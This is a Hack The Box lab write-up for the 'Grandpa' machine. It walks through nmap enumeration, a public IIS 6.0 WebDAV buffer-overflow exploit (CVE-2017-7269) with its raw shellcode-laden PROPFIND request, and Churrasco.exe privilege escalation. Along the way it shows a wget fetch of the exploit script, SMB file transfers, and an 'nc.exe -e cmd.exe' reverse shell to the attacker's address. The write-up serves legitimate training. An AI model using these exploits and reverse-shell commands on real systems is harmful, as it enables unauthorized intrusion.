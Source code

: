 ```yaml
---
layout: default
title: GRAND PA
description: by Hack The Box
---
```


<h3 align="center">
This has a bufferflow vulnerability that can give you a foothold on the machine. But I learned something new in this machine when trying to privesc to root. Moving files from my KALI to the windows victim using SMB.
</h3>

# Enumeration

1. Scan with nmap

   ```
   └─$ nmap -T4 -A -Pn --script vuln 10.10.10.14
   Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-28 00:00 EST
   Pre-scan script results:
   | broadcast-avahi-dos:
   |   Discovered hosts:
   |     224.0.0.251
   |   After NULL UDP avahi packet DoS (CVE-2011-1002).
   |_  Hosts are all up (not vulnerable).
   Nmap scan report for 10.10.10.14
   Host is up (0.032s latency).
   Not shown: 999 filtered tcp ports (no-response)
   PORT   STATE SERVICE VERSION
   80/tcp open  http    Microsoft IIS httpd 6.0
   |_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
   | http-enum:
   |   /postinfo.html: Frontpage file or folder
   |   /_vti_bin/_vti_aut/author.dll: Frontpage file or folder
   |   /_vti_bin/_vti_aut/author.exe: Frontpage file or folder
   |   /_vti_bin/_vti_adm/admin.dll: Frontpage file or folder
   |   /_vti_bin/_vti_adm/admin.exe: Frontpage file or folder
   |   /_vti_bin/fpcount.exe?Page=default.asp|Image=3: Frontpage file or folder
   |   /_vti_bin/shtml.dll: Frontpage file or folder
   |_  /_vti_bin/shtml.exe: Frontpage file or folder
   |_http-dombased-xss: Couldn't find any DOM based XSS.
   | vulners:
   |   cpe:/a:microsoft:internet_information_server:6.0:
   |       SSV:2903        10.0    https://vulners.com/seebug/SSV:2903     *EXPLOIT*
   |       PACKETSTORM:82956       10.0    https://vulners.com/packetstorm/PACKETSTORM:82956       *EXPLOIT*
   |       MSF:EXPLOIT/WINDOWS/IIS/MS01_033_IDQ    10.0    https://vulners.com/metasploit/MSF:EXPLOIT/WINDOWS/IIS/MS01_033_IDQ     *EXPLOIT*
   |       MS01_033        10.0    https://vulners.com/canvas/MS01_033     *EXPLOIT*
   |       EDB-ID:20933    10.0    https://vulners.com/exploitdb/EDB-ID:20933      *EXPLOIT*
   |       EDB-ID:20932    10.0    https://vulners.com/exploitdb/EDB-ID:20932      *EXPLOIT*
   |       EDB-ID:20931    10.0    https://vulners.com/exploitdb/EDB-ID:20931      *EXPLOIT*
   |       EDB-ID:20930    10.0    https://vulners.com/exploitdb/EDB-ID:20930      *EXPLOIT*
   |       EDB-ID:16472    10.0    https://vulners.com/exploitdb/EDB-ID:16472      *EXPLOIT*
   |       CVE-2008-0075   10.0    https://vulners.com/cve/CVE-2008-0075
   |       CVE-2001-0500   10.0    https://vulners.com/cve/CVE-2001-0500
   |       SSV:30067       7.5     https://vulners.com/seebug/SSV:30067    *EXPLOIT*
   |       CVE-2007-2897   7.5     https://vulners.com/cve/CVE-2007-2897
   |       SSV:2902        7.2     https://vulners.com/seebug/SSV:2902     *EXPLOIT*
   |       CVE-2008-0074   7.2     https://vulners.com/cve/CVE-2008-0074
   |       EDB-ID:2056     6.5     https://vulners.com/exploitdb/EDB-ID:2056       *EXPLOIT*
   |       CVE-2006-0026   6.5     https://vulners.com/cve/CVE-2006-0026
   |       EDB-ID:585      5.0     https://vulners.com/exploitdb/EDB-ID:585        *EXPLOIT*
   |       CVE-2005-2678   5.0     https://vulners.com/cve/CVE-2005-2678
   |       CVE-2003-0718   5.0     https://vulners.com/cve/CVE-2003-0718
   |       SSV:20121       4.3     https://vulners.com/seebug/SSV:20121    *EXPLOIT*
   |       MSF:AUXILIARY/DOS/WINDOWS/HTTP/MS10_065_II6_ASP_DOS     4.3     https://vulners.com/metasploit/MSF:AUXILIARY/DOS/WINDOWS/HTTP/MS10_065_II6_ASP_DOS *EXPLOIT*
   |       EDB-ID:15167    4.3     https://vulners.com/exploitdb/EDB-ID:15167      *EXPLOIT*
   |       CVE-2010-1899   4.3     https://vulners.com/cve/CVE-2010-1899
   |       CVE-2005-2089   4.3     https://vulners.com/cve/CVE-2005-2089
   |_      CVE-2003-1582   2.6     https://vulners.com/cve/CVE-2003-1582
   | http-frontpage-login:
   |   VULNERABLE:
   |   Frontpage extension anonymous login
   |     State: VULNERABLE
   |       Default installations of older versions of frontpage extensions allow anonymous logins which can lead to server compromise.
   |
   |     References:
   |_      http://insecure.org/sploits/Microsoft.frontpage.insecurities.html
   |_http-csrf: Couldn't find any CSRF vulnerabilities.
   |_http-server-header: Microsoft-IIS/6.0
   Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

   Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
   Nmap done: 1 IP address (1 host up) scanned in 208.49 seconds
   ```

2. Googling exploits for the service Microsoft IIS httpd 6.0, we found https://www.exploit-db.com/exploits/41738. Also found a metasploit exploit from Rapid7 website.
3. In this, I tried so hard not to use metasploit but know that you can achieve the initial shell using MSFCONSOLE

# FootHold

4. Run a netcat listener `nc -nvlp 3612`
5. Download this python script from github
   ```
   sudo wget https://raw.githubusercontent.com/g0rx/iis6-exploit-2017-CVE-2017-7269/master/iis6%20reverse%20shell -O iis_reverse_shell.py
   ```
6. Then run the script with this syntax
   ```
   python iis_reverse_shell.py 10.10.10.14 80 10.10.14.2 1234
   ```
   `Note`: my head almost fell off my neck because my listener won't get the shell even after doing everything the way github wanted it to be. I found out that the GRANPA machine is like any other old man (LOL) who is grumpy and tempermental. You might need to reset the machine for this to work. A good giveaway that it will work is if you get this
   ```
   PROPFIND / HTTP/1.1
   Host: localhost
   Content-Length: 1744
   If: <http://localhost/aaaaaaa潨硣睡焳椶䝲稹䭷佰畓穏䡨噣浔桅㥓偬啧杣㍤䘰硅楒吱䱘橑牁䈱瀵塐㙤汇㔹呪倴呃睒偡㈲测水㉇扁㝍兡塢䝳剐㙰畄桪㍴乊硫䥶乳䱪坺潱塊㈰㝮䭉前䡣潌畖畵景癨䑍偰稶手敗畐橲穫睢癘扈攱ご汹偊呢倳㕷橷䅄㌴摶䵆噔䝬敃瘲牸坩䌸扲娰夸呈ȂȂዀ栃汄剖䬷汭佘塚祐䥪塏䩒䅐晍Ꮐ栃䠴攱潃湦瑁䍬Ꮐ栃千橁灒㌰塦䉌灋捆关祁穐䩬> (Not <locktoken:write1>) <http://localhost/bbbbbbb祈慵佃潧歯䡅㙆杵䐳㡱坥婢吵噡楒橓兗㡎奈捕䥱䍤摲㑨䝘煹㍫歕浈偏穆㑱潔瑃奖潯獁㑗慨穲㝅䵉坎呈䰸㙺㕲扦湃䡭㕈慷䵚慴䄳䍥割浩㙱乤渹捓此兆估硯牓材䕓穣焹体䑖漶獹桷穖慊㥅㘹氹䔱㑲卥塊䑎穄氵婖扁湲昱奙吳ㅂ塥奁煐〶坷䑗卡Ꮐ栃湏栀湏栀䉇癪Ꮐ栃䉗佴奇刴䭦䭂瑤硯悂栁儵牺瑺䵇䑙块넓栀ㅶ湯ⓣ栁ᑠ栃翾￿￿Ꮐ栃Ѯ栃煮瑰ᐴ栃⧧栁鎑栀㤱普䥕げ呫癫牊祡ᐜ栃清栀眲票䵩㙬䑨䵰艆栀䡷㉓ᶪ栂潪䌵ᏸ栃⧧栁VVYA4444444444QATAXAZAPA3QADAZABARALAYAIAQAIAQAPA5AAAPAZ1AI1AIAIAJ11AIAIAXA58AAPAZABABQI1AIQIAIQI1111AIAJQI1AYAZBABABABAB30APB944JBRDDKLMN8KPM0KP4KOYM4CQJINDKSKPKPTKKQTKT0D8TKQ8RTJKKX1OTKIGJSW4R0KOIBJHKCKOKOKOF0V04PF0M0A>
   ```
   If you get that same output followed by something else like `HTTP/1.1 400 Bad Request`... then it means you need to restart the target machine.
7. You will now get a foothold shell on your listener. You will also immediately notice that you do not have privileges to even see the user flag. So privesc is needed.
8. One thing though, you will need find a folder where you can write and execute files. This is needed so you can upload your payload into this folder.
9. So not to spoil it, and so that you dont suffer as much as I have (LOL)... it is in one of the folders in the root directory C:\ there are only a few of them so try them out by using this
   ```
   echo test > 1.txt
   ```
   if the file saves, then its writtable and that is your baby! You only need to check the folders within the root directory and NOT the folders within these folders.

# PrivEsc to Root

10. Entering `sysinfo` we get more details about the server itself. I tried a gimmick I learned from the OPTIMUM (HTB) where I used the windows-exploit-suggesters script to find privesc suggestions.
11. I tried a few but gave up and went to a walkthrough.
12. Learnt that what will work is a binary named Churrasco.exe https://github.com/Re4son/Churrasco/raw/master/churrasco.exe. I've downloaded this file to my HTB folder and now I need to transfer this to my target machine.
13. Transferring this file is where I learned a new gimmick.
    First, we enable an SMB server from our HTB folder where my churrasco.exe file is saved and nc.exe is also saved (from previous boxes)

    ```
    impacket-smbserver smb .
    ```

    Important to note that the syntax for that command is `impacket-smbserver <share name> <share path>`. And because I was already inside my HTB folder, I just used `.`

    Copy churrasco (from the target machine)

    ```
    C:\wmpub>copy \\10.10.14.2\smb\churrasco.exe
    copy \\10.10.14.2\smb\churrasco.exe
            1 file(s) copied.
    ```

    Copy nc.exe (from the target machine)

    ```
    C:\wmpub>copy \\10.10.14.2\smb\nc.exe
    copy \\10.10.14.2\smb\nc.exe
            1 file(s) copied.
    ```

14. Start a listener on port 4444 `nc -nvlp 4444`
15. Now that the files are there the syntax to execute is
    ```
    .\churrasco.exe "C:\wmpub\nc.exe -e cmd.exe 10.10.14.2 4444"
    ```
16. From your netcat listener terminal, you should get a prompt.
17. User flag is in C:\Documents and Settings\Harry\Desktop\user.txt
18. Root flag is in Documents and Settings\Administrator\Desktop\root.txt

<br><br>

# Reference

1. https://raw.githubusercontent.com/SecureAuthCorp/impacket/master/examples/smbserver.py
2. https://www.exploit-db.com/exploits/35936
3. https://github.com/Re4son/Churrasco/
4. https://raw.githubusercontent.com/g0rx/iis6-exploit-2017-CVE-2017-7269/master/iis6%20reverse%20shell
5. https://thecyberjedi.com/grandpa/
6. https://www.rapid7.com/db/modules/exploit/windows/iis/iis_webdav_scstoragepathfromurl/

<br><br>

[back to HOME](./)
